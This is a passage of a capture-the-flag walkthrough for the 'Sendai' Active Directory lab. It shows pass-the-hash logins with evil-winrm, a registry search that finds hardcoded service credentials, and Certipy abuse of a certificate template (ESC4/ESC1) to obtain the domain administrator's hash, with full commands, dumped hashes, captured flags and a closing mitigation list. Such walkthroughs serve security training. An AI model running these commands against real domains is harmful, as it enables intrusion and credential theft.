LDAP        10.129.234.66   389    DC               Account: mgtsvc$              NTLM: 04916851945671b02a176029fac231ba
LDAP        10.129.234.66   389    DC               Account: mgtsvc$              aes128-cts-hmac-sha1-96: 32c0393c5e5a5bd8957ed391d5b92da1
LDAP        10.129.234.66   389    DC               Account: mgtsvc$              aes256-cts-hmac-sha1-96: fe1250d543a692050cfcb3f70914ec4bac83fdbb754262251dd2b4c693b2a683
```

### Access via WinRM

Using the NTLM hash, I authenticate as `mgtsvc$` via WinRM:

```bash
hyena@hyena$ evil-winrm -i 10.129.234.66 -u mgtsvc$ -H 04916851945671b02a176029fac231ba
```

```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami
sendai\mgtsvc$
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents>
```

#### Pentester Knowledge: Pass-the-Hash Attack

Pass-the-Hash (PtH) is an attack technique where an attacker uses the NTLM hash of a user's password to authenticate without needing the plaintext password. Windows authentication protocols (NTLM, Kerberos) rely on cryptographic hashes of the password, and if an attacker can obtain these hashes, they can use them directly.

**How Pass-the-Hash Works:**
1. An attacker obtains an NTLM hash (through various means)
2. The attacker uses tools (like evil-winrm, impacket) that support PtH
3. The authentication protocols use the hash directly to prove identity
4. The attacker gains access as that user

**Common Tools Supporting PtH:**
- evil-winrm
- impacket's psexec, smbexec, wmiexec
- crackmapexec / netexec
- xfreerdp (with /pth option)

### User Flag

The user flag is located in the root of the C: drive:

```bash
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> type C:\user.txt
fff335936142d21a6fa44123b897cd3e
```

---

## Lateral Movement

### Registry Enumeration for Hardcoded Credentials

While enumerating the system as `mgtsvc$`, I examine the Windows Registry for services with custom executables that might contain hardcoded credentials.

#### Understanding the Windows Registry

The Windows Registry is a hierarchical database that stores configuration settings for the operating system, applications, and hardware devices. The `HKLM\SYSTEM\CurrentControlSet\Services` key contains information about all installed services, including their executable paths, startup parameters, and account contexts.

```
HKLM\SYSTEM\CurrentControlSet\Services\
    └── [Service Name]/
        ├── ImagePath (REG_EXPAND_SZ) - Path to executable
        ├── ObjectName (REG_SZ) - Account context
        ├── Start (REG_DWORD) - Startup type
        └── Type (REG_DWORD) - Service type
```

```powershell
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> # Look for services with hardcoded credentials
dir -Path HKLM:\SYSTEM\CurrentControlSet\services | Get-ItemProperty | Select-Object ImagePath | select-string -NotMatch "svchost.exe" | select-string "exe"
```

### Discovery of Hardcoded Credentials

The enumeration reveals a critical finding:

```powershell
@{ImagePath=C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe}
@{ImagePath=C:\Windows\System32\alg.exe}
@{ImagePath="C:\Program Files\Amazon\EC2Launch\service\EC2LaunchService.exe"}
@{ImagePath="C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"}
@{ImagePath=C:\Windows\system32\AppVClient.exe}
@{ImagePath=C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe}
@{ImagePath="C:\Program Files\Amazon\XenTools\LiteAgent.exe"}
@{ImagePath=C:\Windows\system32\certsrv.exe}
@{ImagePath=C:\Windows\system32\dllhost.exe /Processid:{02D4B3F1-FD88-11D1-960D-00805FC79235}}
@{ImagePath=C:\Windows\system32\CredentialEnrollmentManager.exe}
@{ImagePath=C:\Windows\system32\dfssvc.exe}
@{ImagePath=C:\Windows\system32\DFSRs.exe}
@{ImagePath=C:\Windows\system32\DiagSvcs\DiagnosticsHub.StandardCollector.Service.exe}
@{ImagePath=C:\Windows\system32\dns.exe}
@{ImagePath=C:\Windows\System32\lsass.exe}
@{ImagePath="C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc}
@{ImagePath="C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc}
@{ImagePath=C:\Windows\System32\lsass.exe}
@{ImagePath=System32\Drivers\ExecutionContext.sys}
@{ImagePath=C:\Windows\Microsoft.Net\Framework64\v3.0\WPF\PresentationFontCache.exe}
@{ImagePath=C:\Windows\System32\ismserv.exe}
@{ImagePath=C:\Windows\System32\lsass.exe}
@{ImagePath=C:\Windows\system32\lsass.exe}
@{ImagePath=C:\Windows\system32\lsass.exe}
@{ImagePath="C:\Program Files (x86)\Microsoft\Edge\Application\139.0.3405.102\elevation_service.exe"}
@{ImagePath=C:\Windows\System32\msdtc.exe}
@{ImagePath=C:\Windows\system32\msiexec.exe /V}
@{ImagePath="C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlservr.exe" -sSQLEXPRESS}
@{ImagePath=C:\Windows\system32\lsass.exe}
@{ImagePath=C:\Windows\System32\lsass.exe}
@{ImagePath=C:\Windows\system32\ntfrs.exe}
@{ImagePath=C:\Windows\SysWow64\perfhost.exe}
@{ImagePath=C:\Windows\PSSDNSVC.EXE}
@{ImagePath=C:\Windows\system32\locator.exe}
@{ImagePath=C:\Windows\system32\RSoPProv.exe}
@{ImagePath=C:\Windows\system32\lsass.exe}
@{ImagePath=C:\Windows\system32\SecurityHealthService.exe}
@{ImagePath="C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"}
@{ImagePath=C:\Windows\System32\SensorDataService.exe}
@{ImagePath=C:\Windows\System32\snmptrap.exe}
@{ImagePath=C:\Windows\System32\spoolsv.exe}
@{ImagePath=C:\Windows\system32\sppsvc.exe}
@{ImagePath="C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\SQLAGENT.EXE" -i SQLEXPRESS}
@{ImagePath="C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"}
@{ImagePath="C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlceip.exe" -Service SQLEXPRESS}
@{ImagePath="C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"}
@{ImagePath=C:\Windows\System32\OpenSSH\ssh-agent.exe}
@{ImagePath=C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmoB2WplgE_3p -k netsvcs}
@{ImagePath=C:\Windows\system32\TieringEngineService.exe}
@{ImagePath=C:\Windows\servicing\TrustedInstaller.exe}
@{ImagePath=C:\Windows\system32\AgentService.exe}
@{ImagePath=C:\Windows\system32\lsass.exe}
@{ImagePath=C:\Windows\System32\vds.exe}
@{ImagePath="C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"}
@{ImagePath="C:\Program Files\VMware\VMware Tools\vm3dservice.exe"}
@{ImagePath="C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"}
@{ImagePath=C:\Windows\system32\dllhost.exe /Processid:{05354908-93A6-4FE9-9A54-8367376F338A}}
@{ImagePath=C:\Windows\system32\vssvc.exe}
@{ImagePath="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23050.5-0\NisSrv.exe"}
@{ImagePath="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.23050.5-0\MsMpEng.exe"}
@{ImagePath=C:\Windows\system32\wbem\WmiApSrv.exe}
@{ImagePath="C:\Program Files\Windows Media Player\wmpnetwk.exe"}
@{ImagePath=C:\Windows\system32\SearchIndexer.exe /Embedding}
```

#### Pentester Knowledge: Identifying Hardcoded Credentials

Hardcoded credentials are a common security weakness where system administrators embed usernames and passwords directly in configuration files, scripts, or service configurations.

**Common Locations to Check for Hardcoded Credentials:**

| Location | Reason |
|----------|--------|
| Service ImagePath | Services often need credentials to run certain processes |
| Scheduled Tasks | Tasks may run with specific credentials |
| Configuration Files | .ini, .xml, .config files often contain passwords |
| Scripts | .bat, .ps1, .vbs scripts are common locations |
| Environment Variables | Sometimes used to pass credentials |
| Web.config | Database connection strings with passwords |

**Search Commands for Hardcoded Credentials:**

```powershell
# Search registry
dir -Path HKLM:\SYSTEM\CurrentControlSet\services | Get-ItemProperty | Select-Object ImagePath | select-string "exe" | select-string -NotMatch "svchost"

# Search files
findstr /s /m /i "password" C:\*.ini C:\*.xml C:\*.config C:\*.bat C:\*.ps1 C:\*.txt

# Search scheduled tasks
schtasks /query /fo LIST /v | findstr "Password"
```

### Testing the Credentials

I verify the credentials are valid using NetExec:

```bash
hyena@hyena$ nxc smb dc.sendai.vl -u 'clifford.davey' -p 'RFmoB2WplgE_3p'
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.234.66   445    DC               [+] sendai.vl\clifford.davey:RFmoB2WplgE_3p
```

---

## Privilege Escalation

### BloodHound Analysis for clifford.davey

Back in BloodHound, I analyze the position of `clifford.davey` to identify privilege escalation paths:

```
clifford.davey
    ↓ Member of
CA-OPERATORS (Group)
    ↓ GenericAll rights over
SENDAICOMPUTER (Certificate Template)
```

### Understanding Active Directory Certificate Services (ADCS)

Active Directory Certificate Services (ADCS) is a Microsoft server role that provides public key infrastructure (PKI) capabilities. ADCS issues digital certificates that are used for:
- SSL/TLS encryption
- Digital signatures
- User authentication
- Smart card logon

#### Certificate Templates and ESC1/ESC4 Attacks

**Certificate Templates** define the properties of certificates that can be issued:
- Key length and algorithm
- Validity period
- Authentication requirements
- Subject name configuration
- Enrollment permissions

**ESC1 Attack:** A certificate template is vulnerable to ESC1 if it allows:
- Client authentication (EKU: Client Authentication)
- Subject name configuration in the request
- Low-level enrollment rights (like Domain Users can enroll)

An attacker can request a certificate with an arbitrary Subject Alternative Name (SAN), effectively creating a certificate for any user they choose.

**ESC4 Attack:** A certificate template is vulnerable to ESC4 if an attacker has permissions to modify the template itself. This allows the attacker to:
1. Modify the template to enable ESC1 conditions
2. Request a certificate for any user
3. Use that certificate for authentication

**ESC1 and ESC4 Steps:**

1. **Identify vulnerable template** (GenericAll or WriteProperty over template)
2. **Modify template for ESC1** (if ESC4, make it vulnerable)
3. **Request certificate** with arbitrary UPN
4. **Extract NT hash** from certificate
5. **Authenticate as target user**

### Exploiting ADCS with Certipy

#### What is Certipy?

Certipy is a Python tool designed for attacking Active Directory Certificate Services (ADCS). It provides functionality for:
- Enumerating certificate templates
- Requesting certificates
- Modifying certificate templates
- Extracting NT hashes from certificates
- Abusing various ADCS vulnerabilities

**Certipy Attack Process:**
1. `certipy-ad template -save-old` - Save the original template configuration
2. `certipy-ad template -modify` - Modify the template for ESC1 conditions
3. `certipy-ad req` - Request a certificate with arbitrary UPN
4. `certipy-ad auth` - Use the certificate to authenticate as a user

### Step 1: Save the Original Template Configuration

```bash
hyena@hyena$ certipy-ad template -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -template SENDAICOMPUTER -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'SENDAICOMPUTER' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```

### Step 2: Request Certificate for Administrator

```bash
hyena@hyena$ certipy-ad req -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -target 'dc.sendai.vl' -ca 'sendai-DC-CA' -template SENDAICOMPUTER -upn 'administrator' -sid 'S-1-5-21-3085872742-570972823-736764132-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 8
[*] Got certificate with UPN 'administrator'
[*] Certificate object SID is 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

### Step 3: Extract Administrator's NT Hash

```bash
hyena@hyena$ certipy-ad auth -u administrator -domain sendai.vl -dc-ip 10.129.234.66 -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl':
aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

### Step 4: Authenticate as Administrator

Using Pass-the-Hash, I authenticate as the Domain Administrator:

```bash
hyena@hyena$ evil-winrm -i 10.129.234.66 -u 'administrator' -H 'cfb106feec8b89a3d98e14dcbe8d087a'
```



```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sendai\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
```

### Root Flag

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
```


---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** (`C:\user.txt`) | ✅ Captured: `fff335936142d21a6fa44123b897cd3e` |
| **Root Flag** (`C:\Users\Administrator\Desktop\root.txt`) | ✅ Captured |

---

## Attack Chain Summary

```
Nmap Scan → Service Discovery → Domain Identification
    ↓
Anonymous SMB Access → File Discovery
    ↓
incident.txt & guidelines.txt → Password Policy Information
    ↓
RID Brute Force → User Enumeration
    ↓
Password Spraying → STATUS_PASSWORD_MUST_CHANGE Identified
    ↓
Password Reset (Thomas.Powell) → Foothold
    ↓
BloodHound Analysis → GMSA Attack Path
    ↓
Group Membership Modification → ADMSVC
    ↓
GMSA Password Read (mgtsvc$) → Lateral Movement
    ↓
Local Enumeration → Hardcoded Credentials (Clifford.Davey)
    ↓
BloodHound Analysis → ADCS Attack Path
    ↓
Certificate Template Modification (ESC4/ESC1)
    ↓
Certificate Request for Administrator
    ↓
NT Hash Extraction → Domain Administrator
    ↓
Pass-the-Hash → Complete Compromise
```

---

## Mitigations & Security Recommendations

### 1. Disable Anonymous SMB Access
Configure SMB shares to require authentication and remove anonymous/guest permissions. Limit read access to authenticated users only.

### 2. Secure Password Reset Processes
Implement additional controls for password reset operations. Do not allow password changes without proper authentication, even for accounts in "must change" state.

### 3. Remove Hardcoded Credentials
Never store passwords in service configurations, scripts, or configuration files. Use Managed Service Accounts (MSAs) or Group Managed Service Accounts (GMSAs) for services.

### 4. Restrict GMSA Access
Tightly control which principals can read GMSA passwords. Follow the principle of least privilege and regularly audit `PrincipalsAllowedToRetrieveManagedPassword` permissions.

### 5. Secure ADCS Certificate Templates
Apply strict permissions on certificate templates. Limit enrollment rights to specific security groups and ensure templates do not allow the requester to specify arbitrary subject names.

### 6. Monitor Group Membership Changes
Implement monitoring for changes to privileged groups like `ADMSVC` and `CA-OPERATORS`. Alert on unauthorized modifications.

### 7. Implement Least Privilege
Review and restrict group memberships, especially for high-value groups. Users like `Thomas.Powell` should not have the ability to modify group memberships for privileged groups.

### 8. Implement Privileged Access Workstations (PAWs)
Restrict administrative access to hardened workstations and require step-up authentication for sensitive operations.

### 9. Enable Advanced Auditing
Configure advanced auditing policies to log:
- Group membership changes
- Password changes
- Certificate requests and issuance
- Service configuration changes

### 10. Regular Security Assessments
Conduct regular penetration testing and Active Directory security assessments to identify misconfigurations and attack paths before attackers do.
